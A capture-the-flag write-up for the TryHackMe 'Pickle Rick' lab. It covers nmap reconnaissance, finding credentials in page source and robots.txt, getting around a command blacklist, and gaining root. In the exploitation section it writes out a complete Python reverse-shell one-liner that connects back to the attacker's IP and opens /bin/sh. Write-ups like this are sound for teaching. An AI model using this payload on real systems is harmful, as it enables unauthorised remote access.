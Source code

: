 # PICKLE RICK CTF TRYHACKME

# RECON

'Nmap'
nmap -sV -A -T5 <MACHINE_IP>
-Open Ports-

![image](https://user-images.githubusercontent.com/82729808/190850518-7aac9130-039f-4e48-8334-44fa5885b6b4.png)

We got 22 and 80 ports open. Lets move to the web page.
In the source code of the page, we have a username

![image](https://user-images.githubusercontent.com/82729808/190850795-4be5e958-7fc4-47b2-a422-5b8a9be379c6.png)

' Gobuster '

 
 Lets look at /robots.txt
![image](https://user-images.githubusercontent.com/82729808/190850810-33210e0d-edf9-4579-9d35-e00ae0e92a98.png)

We have this text. And when we look at the login page we understand that its a password
![image](https://user-images.githubusercontent.com/82729808/190850862-700f1c30-6e25-4267-8e02-8c82f4fda116.png)

![image](https://user-images.githubusercontent.com/82729808/190850872-87a9b97d-ff3a-4eb2-9e18-87bfe3062ff9.png)
And we have a command panel. Lets list the files.
![image](https://user-images.githubusercontent.com/82729808/190850884-b388ab7b-e11e-4cea-9f46-ccdc599868e0.png)
 
 When we try to read the files, this happens
 ![image](https://user-images.githubusercontent.com/82729808/190850898-a30fb1c1-9b1f-4200-b1ce-53363604c6ae.png)
 
 ![image](https://user-images.githubusercontent.com/82729808/190850911-f0774c25-2fb8-4c05-9a72-27232af40b55.png)

So we have to be creative
![image](https://user-images.githubusercontent.com/82729808/190850954-fa083d29-5156-4667-bf4b-ae61a1185666.png)

When we use grep and look at the source code, we can see de blacklisted commands
![image](https://user-images.githubusercontent.com/82729808/190850978-1fc8bd7f-8fbf-4584-8ee5-bb764c5aee5f.png)

We can use grep again to read the files.

![image](https://user-images.githubusercontent.com/82729808/190851146-2b94f285-69ad-4bb8-8b95-d8cce05d002a.png)

And we've found the first question!

# Explotation

Now we need to get a reverse shell. To do this, we can test if machine has python with the command "python3 -c 'print("I have Python3!")'"

![image](https://user-images.githubusercontent.com/82729808/190851232-c3404331-2d87-45ac-9b88-9e52e441194d.png)

We have python3. Lets copy our reverse shell cheat sheet at  https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_OPENVPN_IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Before we execute this script we have to start a nc listener.

![image](https://user-images.githubusercontent.com/82729808/190851300-b02a00eb-b643-4476-9644-01d4c14d47b7.png)

![image](https://user-images.githubusercontent.com/82729808/190851454-5cf448aa-8457-45fa-9547-25ff550a1fe3.png)

We have the shell!

Let's check out root privileges
![image](https://user-images.githubusercontent.com/82729808/190851481-f042ace0-e186-4f14-aab1-fb6dd635af5d.png)

We can see that we can switch to root account without a password
![image](https://user-images.githubusercontent.com/82729808/190851565-b0f22bb1-b5d2-4090-8ecd-35b408f0e9f7.png)

We have the 3rd ingredient in root directory and the second one in the home page of ricks account
![image](https://user-images.githubusercontent.com/82729808/190851602-e7871eec-6489-4ea3-9274-2c663a5bb20a.png)

# COMPLETED

